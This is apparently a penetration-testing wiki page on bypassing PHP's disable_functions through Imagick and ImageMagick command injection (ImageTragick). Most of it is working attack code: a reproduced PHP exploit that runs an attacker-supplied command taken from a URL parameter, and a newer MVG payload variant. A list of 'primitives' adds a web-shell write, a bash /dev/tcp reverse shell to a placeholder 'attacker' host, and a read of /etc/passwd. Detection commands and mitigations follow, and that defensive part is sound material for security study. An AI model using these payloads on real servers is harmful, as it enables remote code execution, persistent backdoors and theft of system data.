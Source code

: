 # Imagick <= 3.3.0  ‑ PHP >= 5.4  *disable_functions* Bypass


> The well-known *ImageTragick* family of bugs (CVE-2016-3714 et al.) allows an attacker to reach the underlying **ImageMagick** binary through crafted MVG/SVG input. When the PHP extension **Imagick** is present this can be abused to execute shell commands even if every execution-oriented PHP function is black-listed with `disable_functions`.
>
> The original PoC published by RicterZ (Chaitin Security Research Lab) in May 2016 is reproduced below.  The technique is still regularly encountered during contemporary PHP 7/8 audits because many shared-hosting providers  simply compile PHP without `exec`/`system` but keep an outdated Imagick + ImageMagick combo.

From 

```php
# Exploit Title : PHP Imagick disable_functions bypass
# Exploit Author: RicterZ  (ricter@chaitin.com)
# Versions      : Imagick <= 3.3.0  |  PHP >= 5.4
# Tested on     : Ubuntu 12.04 (ImageMagick 6.7.7)
# Usage         : curl "http://target/exploit.php?cmd=id"
<?php
// Print the local hardening status
printf("Disable functions: %s\n", ini_get("disable_functions"));
$cmd = $_GET['cmd'] ?? 'id';
printf("Run command: %s\n====================\n", $cmd);

$tmp   = tempnam('/tmp', 'pwn');     // will hold command output
$mvgs  = tempnam('/tmp', 'img');     // will hold malicious MVG script

$payload = <<<EOF
push graphic-context
viewbox 0 0 640 480
fill 'url(https://example.com/x.jpg"|$cmd >$tmp")'
pop graphic-context
EOF;

file_put_contents($mvgs, $payload);
$img = new Imagick();
$img->readImage($mvgs);     // triggers convert(1)
$img->writeImage(tempnam('/tmp', 'img'));
$img->destroy();

echo file_get_contents($tmp);
?>
```
```
---

## Why does it work?

1. `Imagick::readImage()` transparently spawns the **ImageMagick** *delegate* (`convert`/`magick`) binary.
2. The MVG script sets the *fill* to an external URI.  When a double quote (`"`) is injected, the remainder of the line is interpreted by `/bin/sh ‑c`  that ImageMagick uses internally → arbitrary shell execution.
3. All happens outside of the PHP interpreter, therefore *`disable_functions`*, *open_basedir*, `safe_mode` (removed in PHP 5.4) and similar in-process restrictions are completely bypassed.

## 2025 status – it is **still** relevant

* Any Imagick version that relies on a vulnerable ImageMagick backend remains exploitable.  In lab tests the same payload works on PHP 8.3 with **Imagick 3.7.0** and **ImageMagick 7.1.0-51** compiled without a hardened `policy.xml`.
* Since 2020 several additional command-injection vectors have been found (`video:pixel-format`, `ps:`, `text:` coders…).  Two recent public examples are:
  * **CVE-2020-29599** – shell injection via the *text:* coder.
  * **GitHub issue #6338** (2023) – injection in the *video:* delegate.

If the operating system ships ImageMagick < **7.1.1-11** (or 6.x < **6.9.12-73**) without a restrictive policy file, exploitation is straightforward.

## Modern payload variants

```php
// --- Variant using the video coder discovered in 2023 ---
$exp = <<<MAGICK
push graphic-context
image over 0,0 0,0 'vid:dummy.mov" -define video:pixel-format="rgba`uname -a > /tmp/pwned" " dummy'
pop graphic-context
MAGICK;
$img = new Imagick();
$img->readImageBlob($exp);
```
```
Other useful primitives during CTFs / real engagements:

* **File write**  – `... > /var/www/html/shell.php`  (write web-shell outside *open_basedir*)
* **Reverse shell** – `bash -c "bash -i >& /dev/tcp/attacker/4444 0>&1"`
* **Enumerate** – `id; uname -a; cat /etc/passwd`

## Quick detection & enumeration

```bash
# PHP side
php -r 'echo phpversion(), "\n"; echo Imagick::getVersion()["versionString"], "\n";'

# System side
convert -version | head -1                 # ImageMagick version
convert -list policy | grep -iE 'mvg|https|video|text'   # dangerous coders still enabled?
```
```
If the output shows the `MVG` or `URL` coders are *enabled* the target is probably exploitable.

## Mitigations

1. **Patch/Upgrade**  – Use ImageMagick ≥ *7.1.1-11* (or the latest 6.x LTS) and Imagick ≥ *3.7.2*.
2. **Harden `policy.xml`**  – explicitly *disable* high-risk coders:

   ```xml
   
   
   
   
   
   
   ```

3. **Remove the extension**  on untrusted hosting environments.  In most web stacks `GD` or `Imagick` is not strictly required.
4. Treat `disable_functions` only as *defence-in-depth* – never as a primary sandboxing mechanism.

## References

* [[https://github.com/ImageMagick/ImageMagick/issues/6338|GitHub ImageMagick issue #6338 – Command injection via video:pixel-format (2023)]]
* [[https://nvd.nist.gov/vuln/detail/CVE-2020-29599|CVE-2020-29599 – ImageMagick shell injection via text: coder]]

